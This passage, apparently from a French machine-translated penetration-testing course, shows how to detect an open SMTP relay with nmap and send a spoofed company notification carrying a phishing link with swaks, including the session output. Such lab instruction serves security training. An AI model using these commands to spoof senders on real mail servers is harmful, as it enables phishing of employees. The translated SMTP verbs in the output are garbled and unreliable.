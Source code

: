 #### Relais ouvert

Du point de vue d'un attaquant, nous pouvons abuser de cela pour le phishing en envoyant des e-mails en tant qu'utilisateurs inexistants ou en usurpant l'e-mail de quelqu'un d'autre. Par exemple, imaginons que nous ciblons une entreprise avec un serveur de messagerie relais ouvert et que nous identifions qu'ils utilisent une adresse e-mail spécifique pour envoyer des notifications à leurs employés. Nous pouvons envoyer un e-mail similaire en utilisant la même adresse et ajouter notre lien de phishing avec ces informations. Avec le script `nmap smtp-open-relay` , nous pouvons déterminer si un port SMTP autorise un relais ouvert.

Relais ouvert

```
dsgsec@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

À partir de Nmap 7.80 ( https://nmap.org ) au 2020-10-28 23:59 EDT
Rapport d'analyse Nmap pour 10.10.11.213
L'hôte est actif (latence de 0,28 s).

SERVICE DE L'ÉTAT DU PORT
25/tcp ouvert smtp
|_smtp-open-relay : le serveur est un relais ouvert (tests 14/16)

```

Ensuite, nous pouvons utiliser n'importe quel client de messagerie pour nous connecter au serveur de messagerie et envoyer notre courrier électronique.

Relais ouvert

```
dsgsec@htb[/htb]# swaks --from notifications@inlanefreight.com --to employee@inlanefreight.com --header 'Subject: Company Notification' --body 'Salut à tous, nous voulons avoir de vos nouvelles ! Veuillez remplir le sondage suivant. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Essayer 10.10.11.213:25...
=== Connecté au 10.10.11.213.
<- 220 mail.localdomain Messagerie SMTP prêt
  -> perroquet EHLO
<- 250-mail.localdomain
<- 250-TAILLE 33554432
<- 250-8BITMIME
<- 250-STARTTLS
<- 250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<- 250 AIDE
  -> COURRIER DE :<notifications@inlanefreight.com>
<- 250 D'accord
  -> RCPT À :<employees@inlanefreight.com>
<- 250 D'accord
  -> DONNÉES
<- 354 Données de fin avec <CR><LF>.<CR><LF>
  -> Date : jeu. 29 oct. 2020 01:36:06 -0400
  -> À : employés@inlanefreight.com
  -> De : notifications@inlanefreight.com
  -> Objet : notification de l'entreprise
  -> Identifiant du message : <20201029013606.775675@parrot>
  -> X-Mailer : swaks v20190914.0 jetmore.org/john/code/swaks/
  ->
  -> Salut à tous, nous voulons avoir de vos nouvelles ! Veuillez remplir le sondage suivant. http://mycustomphishinglink.com/
  ->
  ->
  -> .
<- 250 D'accord
  -> QUITTER
<- 221 Au revoir
```